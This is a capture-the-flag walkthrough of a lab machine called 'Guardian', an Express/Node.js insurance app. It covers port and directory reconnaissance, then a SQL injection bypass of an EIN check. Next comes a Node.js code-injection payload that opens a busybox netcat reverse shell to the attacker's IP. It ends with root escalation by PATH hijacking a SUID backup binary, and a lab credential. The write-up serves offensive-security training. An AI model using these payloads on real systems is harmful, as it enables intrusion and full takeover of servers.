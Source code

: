 # Guardian
![](../images/guardian/index.png)

## Recon
At the beginning, I used `nmap` with the following parameters to scan the target. 
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $sudo nmap -sSVC -Pn -T5 --min-rate 2000 172.16.7.194 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 22:46 -03
Warning: 172.16.7.194 giving up on port because retransmission cap hit (2).
Nmap scan report for 172.16.7.194
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e9:d3:ea:ff:b8:2f:a6:39:f8:af:75:1d:ca:b5:aa:59 (ECDSA)
|_  256 2e:2d:59:6e:f9:5b:83:ea:5b:ff:31:c5:0c:33:20:6e (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-title: Guardian Insurance
|_Requested resource was /login
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.74 seconds
```
The scan revealed only ports 22 (SSH) and 80 (HTTP) as open. This suggests that the target is likely running a web service and allowing remote SSH connections.

Above, we can see that there is a redirect to the `/login` page, indicating that authentication is required. Additionally, the application is using `Express.js` as its web framework, which suggests that it is built with Node.js.
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $whatweb 172.16.7.194
http://172.16.7.194 [302 Found] Cookies[connect.sid], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], HttpOnly[connect.sid], IP[172.16.7.194], RedirectLocation[/login], X-Powered-By[Express], nginx[1.24.0]

http://172.16.7.194/login [200 OK] Cookies[connect.sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], HttpOnly[connect.sid], IP[172.16.7.194], PasswordField[password], Script, Title[Guardian Insurance], X-Powered-By[Express], nginx[1.24.0]
```

```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $curl -I 172.16.7.194
HTTP/1.1 302 Found
Server: nginx/1.24.0 (Ubuntu)
Date: Thu, 27 Feb 2025 01:45:42 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: keep-alive
X-Powered-By: Express
Location: /login
Vary: Accept
Set-Cookie: connect.sid=s%3ARXUeGLySkK468RfGVU4pe8Y1Is1B8Wgg.b23S0dXS0oZ7kV9WD5ix4UWkZaeImFr2krPARKPep6Y; Path=/; HttpOnly
```

First, I performed fuzzing on the web application using ffuf to discover hidden directories and files:
```bash
┌─[✗]─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $ffuf -u http://172.16.7.194/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.7.194/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 166ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 219ms]
logout                  [Status: 302, Size: 23, Words: 4, Lines: 1, Duration: 282ms]
login                   [Status: 200, Size: 2707, Words: 661, Lines: 52, Duration: 280ms]
customers               [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 187ms]
                        [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 157ms]
                        [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
:: Progress: [56164/56164] :: Job [1/1] :: 591 req/sec :: Duration: [0:01:50] :: Errors: 1 ::
```

```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $ffuf -u http://172.16.7.194/js/FUZZ -w /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/js.txt -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.7.194/js/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/js.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login.js                [Status: 200, Size: 967, Words: 219, Lines: 36, Duration: 182ms]
utils.js                [Status: 200, Size: 1817, Words: 575, Lines: 68, Duration: 184ms]
register.js             [Status: 200, Size: 1535, Words: 400, Lines: 47, Duration: 221ms]
:: Progress: [3550/3550] :: Job [1/1] :: 515 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

The discovered directories and JavaScript files provide valuable insights into the application's structure. By analyzing the JavaScript files, we identified the following API endpoints:
```
images/
login/
logout/
customers/
js/

js/login.js
js/utils.js
js/register.js


POST to /api/auth/login
POST to /api/auth/first-access/register
GET to /api/auth/verify
POST to /api/rest/execute
```

Additionally, while interacting with the web application, we observed another endpoint: `POST to /api/auth/first-access`.
![](../images/guardian/recon.png)

## Exploitation
The analysis of utils.js reveals two functions, getCompany() and getCustomers(), which send POST requests to `/api/rest/execute` with the following JSON payload:
```
JSON.stringify({action: `db.getClients('${user.EIN}')`})
```

This suggests that the application dynamically executes queries based on user input, which could potentially lead to Remote Code Execution (RCE) if not properly sanitized. However, to explore this endpoint, a valid authentication token (cookie) is required.

In the `/first-access` registration process, there is an Employer Identification Number (EIN) input field. When a request is made to verify the EIN, the application sends a request to: `POST /api/auth/first-access`
![](../images/guardian/error_ein.png)

By testing the payload: `' or 1=1#` we successfully bypassed the EIN verification and obtained a list of valid EINs. This confirms that the application is vulnerable to SQL Injection on the `/api/auth/first-acces`s endpoint.
![](../images/guardian/sql_injection.png)

To register using the obtained EIN (56-7890123), we need to send a POST request to `/api/auth/first-access/register` with the required parameters.
![](../images/guardian/register.png)

Now that we have registered an account, we need to log in to obtain an authentication token.
![](../images/guardian/login.png)

Now that we have obtained a JWT.
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJmOTRiZjRhMy1hNDJmLTRhZjMtYTRhYy1lZjFiOTkyMDRkMTYiLCJFSU4iOiI1Ni03ODkwMTIzIiwiZW1haWwiOiJ0ZXN0QGdtYWlsLmNvbSIsInVzZXJuYW1lIjoidGVzdCIsIlNTTiI6IjEyMzQiLCJhcHByb3ZlZCI6MCwiaWF0IjoxNzQwNjI2NDYxLCJleHAiOjE3NDA2NDA4NjF9.9oqz6-D1JgxsB-rvHn-rCKvpUZu_Ql2aXutMIstXz70
```

Since the vulnerability in utils.js seems to be exploitable, let's craft and test Remote Code Execution (RCE) payloads for Node.js.
![](../images/guardian/testing.png)

Using `{"action":"db.getClients('56-7890123')\nrequire('child_process').exec('curl 10.0.10.235:4444')"}`
![](../images/guardian/command_injection.png)

Great! Now that we have confirmed Remote Code Execution (RCE), you can use the following payload to execute system commands:
```
{"action":"db.getClients('56-7890123')\nrequire('child_process').exec('busybox nc 10.0.10.235 4444 -e sh')"}
```
![](../images/guardian/rce.png)

## Post Exploitation
Inside `/opt` we have a binary file. Since the binary inside `/opt` has the SUID bit set, it runs with elevated privileges. If we can analyze and exploit it, we may escalate privileges to root.
![](../images/guardian/opt_1.png)
![](../images/guardian/opt_2.png)

With Ghidra, we can see the following information:

Main function - check credentials and call a binary named `mysqldump`.
![](../images/guardian/ghidra_1.png)

Verify Credentials functions - give to us a login and password.
![](../images/guardian/ghidra_2.png)

So our path to get a privilege escalation it's make a `Path Hijacking` with `mysqldump` binary and login. Inside `/opt` directory:
```bash
echo 'chmod u+s /bin/bash' > /tmp/mysqldump
chmod +x /tmp/mysqldump
export PATH=/tmp:$PATH
./backup mysql_backup:7fxzh7m*
```
![](../images/guardian/root.png)

And vouala, we have root =D